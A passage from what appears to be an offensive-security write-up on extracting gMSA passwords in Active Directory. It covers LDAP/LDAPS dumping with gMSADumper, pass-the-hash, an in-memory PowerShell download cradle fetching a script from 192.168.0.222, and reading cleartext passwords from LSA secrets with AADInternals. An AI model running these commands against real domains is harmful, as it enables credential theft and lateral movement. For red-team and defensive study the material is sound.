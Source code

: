 ![a08364a15c1c31389079c16ce4d06dec.png](/_resources/a08364a15c1c31389079c16ce4d06dec.png)

Still, I don't like this method because we are relying on two PowerShell modules that don't come built in a default Windows installation, and installing them on someone else's environment may not be desirable.

There are a few alternatives, if we prefer Linux we can use [gMSADumper](https://github.com/micahvandeusen/gMSADumper) but there is one limitation: Windows will refuse to send password data through LDAP unless we are using LDAPS, which is disabled by default because a TLS certificate is required. Without LDAPS only the gMSA ACLs will be shown:

![0f07fd2d42f4e40585af442a921fc6f3.png](/_resources/0f07fd2d42f4e40585af442a921fc6f3.png)

If LDAPS is supported the script will calculate NT hashes and cryptographic keys for us:

![eb91f29755d188616331a54e45f5944c.png](/_resources/eb91f29755d188616331a54e45f5944c.png)

Of course these can be used to pass the hash like usual:

![44825aee273958668ecf70d85c66634c.png](/_resources/44825aee273958668ecf70d85c66634c.png)

Yet another option if we want to run code from a domain joined machine without installing PowerShell modules is [GMSAPasswordReader](https://github.com/rvazarkar/GMSAPasswordReader), a C# program also available wrapped in a [PowerShell script](https://github.com/ricardojba/Invoke-GMSAPasswordReader) we can load in memory with a cradle:
```powershell
IEX(IWR 'http://192.168.0.222/Invoke-GMSAPasswordReader.ps1'
Invoke-GMSAPasswordReader -Command "--AccountName GMSA_ADCS"
```

![cd9535cd2fed7688bfc3d37e0c827e95.png](/_resources/cd9535cd2fed7688bfc3d37e0c827e95.png)

---

## gMSA Password Retrieval #2: LSA Secrets

If we have access as SYSTEM on the hosts where a gMSA is installed we can extract the clear text password from the LSA secrets, instead of requesting it from the DC. Windows stores the password here in case it needs to start the associated service while the DC cannot be contacted.

[Nestori Syynimaa](https://aadinternals.com/post/gmsa/) discovered that gMSA passwords are stored in `HKLM\SECURITY\Policy\Secrets` inside keys prefixed with `_SC_GMSA_{84A78B8C-56EE-465b-8496-FFB35A1B52A7}_` and followed by a HMAC SHA256 hash calculated from the uppercase domain and account name of the account:

![688d1d46656ab674a1014e653586e2a2.png](/_resources/688d1d46656ab674a1014e653586e2a2.png)

His [AADInternals](https://github.com/Gerenios/AADInternals) module can not only obtain the passwords from LSA but also print the account they belong to, useful if there is more than one in the same host because the LSA secrets don't seem to store the gMSA name but only the password:
```powershell
Get-AADIntLSASecrets -AccountName "its-piemonte\GMSA_USR1"
```
